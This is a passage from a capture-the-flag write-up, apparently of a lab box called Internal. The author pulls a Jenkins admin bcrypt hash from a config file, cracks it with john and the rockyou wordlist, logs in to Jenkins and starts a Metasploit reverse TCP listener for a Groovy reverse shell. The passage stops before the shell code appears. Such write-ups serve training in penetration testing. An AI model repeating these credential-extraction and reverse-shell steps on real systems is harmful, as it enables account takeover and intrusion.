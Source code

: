 ```bash
aubreanna@internal:/proc/1506/root/var/jenkins_home/users$ cat admin_3190494404640478712/config.xml | grep '<id>'
  <id>admin</id>
aubreanna@internal:/proc/1506/root/var/jenkins_home/users$ cat admin_3190494404640478712/config.xml | grep 'hudson.security.HudsonPrivateSecurityRealm_-Details' -A1
    <hudson.security.HudsonPrivateSecurityRealm_-Details>
      <passwordHash>#jbcrypt:$2a$10$MDKawySp3DRfUrrKFrBAe.o2D4qCzIJJaPpRfc3u2CR/w.NzbJjqe</passwordHash>
    </hudson.security.HudsonPrivateSecurityRealm_-Details>
    <org.jenkinsci.main.modules.cli.auth.ssh.UserPropertyImpl>
```

### Cracking the Jenkins admin credentials

I pulled the bcrypt hash from above and fed it into `john`, again running it against the `rockyou.txt` wordlist. Almost instantaneously it returned a collision for the password `spongebob`.

```bash
root@kali:~/ctf# echo 'admin:$2a$10$MDKawySp3DRfUrrKFrBAe.o2D4qCzIJJaPpRfc3u2CR/w.NzbJjqe' > jenkins_admin.txt
root@kali:~/ctf# john jenkins_admin.txt --wordlist=/usr/share/wordlists/rockyou.txt
Created directory: /root/.john
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
spongebob        (admin)
1g 0:00:00:01 DONE (2020-12-05 06:07) 0.6172g/s 66.66p/s 66.66c/s 66.66C/s spongebob..beautiful
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

I validated I was able to login with this new set of credentials and was pleased to access the jenkins admin panel.

![jenkins admin](/img/internal_http_jenkins_admin.png)

### Popping a shell in jenkins

While I had access to the jenkins filesystem, I decided to open a shell into the container via the groovy shell for further enumeration. I prepared another listener to catch the shell.

```bash
msf5 exploit(multi/handler) > run -j
[*] Exploit running as background job 5.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 10.10.253.137:4444 
```

I also prepared an example shell from [payload all the things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#groovy) which entered into the groovy script console of jenkins.
